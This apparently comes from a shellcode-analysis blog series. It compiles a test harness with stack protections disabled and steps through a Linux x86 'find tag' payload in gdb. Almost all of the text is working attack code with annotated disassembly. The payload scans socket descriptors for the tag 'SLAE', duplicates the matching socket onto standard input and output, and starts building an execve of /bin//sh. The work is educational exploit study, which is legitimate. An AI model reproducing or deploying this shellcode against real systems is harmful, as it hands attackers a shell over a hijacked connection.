 We compile it and run it with gdb :
```plaintext
root@kali:~# gcc -fno-stack-protector -z execstack shellcode.c -o shell-find-tag
root@kali:~# gdb ./shell-find-tag 
```

Then we break at the start of the payload and look at its instructions :
```nasm
(gdb) set disassembly-flavor intel 
(gdb) break *&payload
(gdb) run
(gdb) disas

   ; socketcall(SYS_RECV, *recv_arguments)
   ; recv(int sockfd, void *buf, size_t len, int flags)
   ; used to receive message from the socket sockfd, and place it in the buffer *buf of length len 
=> 0x00404040 <+0>:	xor    ebx,ebx                    ; EBX set to 0
   0x00404042 <+2>:	push   ebx			  ; push 0

   0x00404043 <+3>:	mov    esi,esp                    ; ESI will point to the memory address 
							  ; before the arguments of recv
 
   0x00404045 <+5>:	push   0x40                       ; push flag MSG_DONTWAIT /* Nonblocking IO.  */
							  ; From man recv "if the operation would block, the call fails"
   0x00404047 <+7>:	mov    bh,0xa			  
   0x00404049 <+9>:	push   ebx                        ; push len argument => 0xa00 bytes
   0x0040404a <+10>:	push   esi                        ; push pointer to the buffer
   0x0040404b <+11>:	push   ebx                        ; push sockfd argument
   0x0040404c <+12>:	mov    ecx,esp                    ; ECX point to the arguments of recv
   0x0040404e <+14>:	xchg   bl,bh                      ; SYS_RECV (EBX = 0xa)

   ; Start of recv loop used to find the file descriptor of the connection to reuse  
   0x00404050 <+16>:	inc    WORD PTR [ecx]             ; increment sockfd to try to recv from the next file descriptor
   0x00404053 <+19>:	push   0x66
   0x00404055 <+21>:	pop    eax		          ; socketcall number
   0x00404056 <+22>:	int    0x80                       ; execute socketcall

   0x00404058 <+24>:	cmp    DWORD PTR [esi],0x45414c53 ; compare the value pointed by ESI (recv *buf) with our tag SLAE 
   0x0040405e <+30>:	jne    0x404050 <payload+16>      ; if not equal, go to the next iteration of the recv loop

   ; Connection found !
   0x00404060 <+32>:	pop    edi			  ; Save the good sockfd in EDI  

   ; dup2 loop and execve(/bin//sh) below
   ; I will not comment it, if you don't understand the instructions
   ; I invite you to look the previous payloads analysis and/or the previous posts of this serie 
   0x00404061 <+33>:	mov    ebx,edi                  
   0x00404063 <+35>:	push   0x2
   0x00404065 <+37>:	pop    ecx
   0x00404066 <+38>:	push   0x3f
   0x00404068 <+40>:	pop    eax
   0x00404069 <+41>:	int    0x80
   0x0040406b <+43>:	dec    ecx
   0x0040406c <+44>:	jns    0x404066 <payload+38>
   0x0040406e <+46>:	push   0xb
   0x00404070 <+48>:	pop    eax
   0x00404071 <+49>:	cdq    
   0x00404072 <+50>:	push   edx
   0x00404073 <+51>:	push   0x68732f2f
   0x00404078 <+56>:	push   0x6e69622f
   0x0040407d <+61>:	mov    ebx,esp
```